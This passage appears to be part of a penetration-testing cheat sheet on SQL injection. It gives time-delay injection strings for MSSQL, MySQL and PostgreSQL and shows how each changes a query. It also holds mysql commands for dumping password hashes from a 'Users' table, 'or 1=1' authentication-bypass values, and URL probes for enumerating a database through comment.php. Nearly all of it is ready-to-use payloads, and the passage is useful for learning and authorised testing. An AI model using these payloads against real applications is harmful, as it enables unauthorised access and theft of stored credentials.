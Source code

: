         *   **MSSQL Server SQL Injection Time Delay Detection:** Add a 30 second delay to a MSSQL Server Query

            *   _Original Query_

                `SELECT * FROM products WHERE name='Test';`

            *   _Injection Value_

                `'; WAITFOR DELAY '00:00:30'; --`

            *   _Resulting Query_

                `SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30'; --`

        *   **MySQL Injection Time Delay Detection:** Add a 30 second delay to a MySQL Query

            *   _Original Query_

                `SELECT * FROM products WHERE name='Test';`

            *   _Injection Value_

                `'-SLEEP(30); #`

            *   _Resulting Query_

                `SELECT * FROM products WHERE name='Test'-SLEEP(30); #`

        *   **PostGreSQL Injection Time Delay Detection:** Add a 30 second delay to an PostGreSQL Query

            *   _Original Query_

                `SELECT * FROM products WHERE name='Test';`

            *   _Injection Value_

                `'; SELECT pg_sleep(30); --`

            *   _Resulting Query_

                `SELECT * FROM products WHERE name='Test'; SELECT pg_sleep(30); --`

    *   Grab password hashes from a web application mysql database called “Users” - once you have the MySQL root username and password

              mysql -u root -p -h $ip
              use "Users"  
              show tables;  
              select \* from users;

    *   Authentication Bypass

              name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;

    *   Enumerating the Database

        `http://192.168.11.35/comment.php?id=738)'`

        Verbose error message?

        `http://$ip/comment.php?id=738 order by 1`
